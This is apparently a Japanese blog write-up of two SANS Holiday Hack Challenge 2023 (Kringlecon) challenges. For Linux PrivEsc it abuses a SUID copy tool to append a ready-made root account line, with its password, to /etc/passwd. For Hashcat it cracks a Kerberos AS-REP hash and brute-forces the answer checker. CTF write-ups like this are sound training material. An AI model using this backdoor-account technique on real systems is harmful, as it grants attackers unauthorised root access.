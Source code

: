 ```yaml
---
title: "SANS Holiday Hack Challenge (Kringlecon) 2023 Writeup"
date: 2024-01-06T12:00:00+09:00
lastmod: 2024-01-06T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fkringlecon_2023%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2023.kringlecon.com/](https://2023.kringlecon.com/)
<br /><br />

新年明けまして おめでとうございます！

SANS の Holiday Hack Challenge (Kringlecon) 2023 をちょっとだけやりました。

チャレンジ自体にたどり着くまでにアバターを移動させないといけないのが面倒くさ過ぎて、今年も少ししかやっていません（以下）。


<br />

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_Objectives.png" alt="kringlecon_2023_Objectives.png">





<br />

<br /><br />
## Linux PrivEsc (Difficulty: 3)
- - -
### Challenge
> Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

（別のチャレンジ文もあったかもしれません。）


<br />

### Solution

まずは、SUIDがセットされているファイルを探します。

<pre>
$ find / -perm -u=s -type f 2>/dev/null
:
(snip)
:
/usr/bin/simplecopy
</pre>

<br/>
<br/>

見慣れない simplecopy というのが居たので、実行してみます。

<pre>
$ /usr/bin/simplecopy
Usage: /usr/bin/simplecopy &lt;source> &lt;destination>
</pre>

<br/>
<br/>

任意のファイルを上書きできそうなので、/etc/password にアカウントを追加します。

<pre>
$ cp /etc/passwd .
$ echo root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash >> passwd
$ /usr/bin/simplecopy passwd /etc/passwd
$ su root2
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
</pre>

/etc/passwd に追加するやつは使いまわしができるので、Linuxの権限昇格をよくやる人は、手元に一個持っておくといいです。

上記の例だと、パスワードは、`mrcake` になります。

<br />
<br />

rootユーザのホーム (/root) に、runmetoanswerというファイルがあって、実行すると簡単なクイズが表示されます。

<pre>
# /root/runmetoanswer
Who delivers Chrismas presents?

>
</pre>

ま、サンタクロースなのは間違いないんですが、大文字小文字の区別があったり、ピッタリ回答が合わないとフラグは貰えません。

<br />
<br />

`strace` や `ltrace` とかも使えないし、`strings` は大量のアウトプットが出るので、そこから答えのヒントを見つけるのが難しいかもしれませんが、いちおう `/etc/runtoanswer.yaml` を参照しているのは見つかります（以下）。

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_strings.png" alt="kringlecon_2023_strings.png">

<br />
<br />

自分は別の方法でこのファイル（`/etc/runtoanswer.yaml`）を見つけたと思うんですが、このブログを書いている時点で全く記憶に残っていないし、メモも取ってなかったので、わからないです。ごめんなさい。たぶん、`grep` か `find` です。

<br />
<br />
`/etc/runtoanswer.yaml` の中を見たら、答え `santa` が見つかります。


<br /><br />
<br /><br />
## Hashcat (Difficulty: 2)
- - -
### Challenge
> Eve Snowshoes is trying to recover a password. Head to the Island of Misfit Toys and take a crack at it!

（別のチャレンジ文もあったかもしれません。）

<br />

### Solution

hash.txt の中身を見ると、`$krb5asrep` で始まっていて、ググってみると `-m 18200` を指定するとよさそうなので、やってみます。

<pre>
$ hashcat -m 18200 -w 1 -u 1 --kernel-accel 1 --kernel-loops 1 hash.txt password_list.txt --force
</pre>

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_hashcat.png" alt="kringlecon_2023_hashcat.png">

<br /><br />

`1LuvCandyC4n3s!2022` か `iLuvCandyCan3s!23!` 辺りが正解なのかと思ったんですが、これらは正解ではありませんでした。

<br /><br />

そもそも、パスワードリスト (password_list.txt) の中には、それほど沢山のパスワードは含まれていないので、Brute Forceしちゃうことにしました。

<pre>
$ for pass in $(cat password_list.txt); do echo $pass | /bin/runtoanswer & done
</pre>

<br />

これで `hashcat` を使わなくてもクリアできます。



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
